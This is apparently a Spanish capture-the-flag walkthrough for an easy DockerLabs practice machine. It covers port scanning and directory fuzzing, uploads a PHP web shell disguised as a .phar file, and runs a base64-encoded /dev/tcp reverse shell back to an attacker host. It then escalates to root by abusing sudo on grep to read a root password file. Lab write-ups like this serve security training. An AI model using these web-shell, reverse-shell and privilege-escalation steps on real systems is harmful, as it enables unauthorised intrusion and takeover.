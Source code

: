 Maquina: DockerLabs

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Accederemos a la página web

172.17.0.2

Aplicar Fuzzing para descubrir rutas y archivos con extensiones

gobuster dir -t 150 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

Accedemos al archivo machine.php y descubrimos una página web que permite la subida de archivos

Intentamos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema

Creamos un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd

<?php
    system($_GET'cmd');
?>

Subimos el archivo .phar y confirmaremos que se ha cargado correctamente

172.17.0.2/upload.php

si cargamos el archivo .phar y enviamos comandos a través del parámetro cmd, podremos ejecutar dichos comandos

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante

Primero, convertimos la shell inversa a Base64 utilizando el siguiente comando:

echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64

Esto nos da el siguiente resultado: c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 4444 utilizando el siguiente comando:

nc -nvlp 4444

Luego, en el parámetro cmd, enviamos el siguiente comando:

echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema

Tratamiento de la TTY

Una vez estemos dentro ejecutamos el siguiente comando: script /dev/null -c bash

Luego presionamos: Ctrl + Z para suspender el proceso

A continuación, escribimos: stty raw -echo; fg

Despues ingresamos: reset

Cuando se nos pregunte: "Terminal type?" Ingresamos xterm.

Finalmente, exportamos las siguientes variables de entorno: export TERM=xterm export SHELL=bash

Al ejecutar sudo -l, veremos que podemos ejecutar los binarios /usr/bin/cut y /usr/bin/grep como usuario root sin necesidad de proporcionar una contraseña

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

find / *.txt 2>/dev/null

veremos que hay un archivo en /opt/ llamado nota.txt

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio /root/clave.txt. Menos mal que nadie tiene permisos para acceder a ella

tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo /root/clave.txt de la siguiente manera:

sudo /usr/bin/grep '' /root/clave.txt

Leemos el archivo, encontramos una posible contraseña: dockerlabsmolamogollon123.

Cambiamos al usuario root y utilizamos la contraseña encontrada

whoami
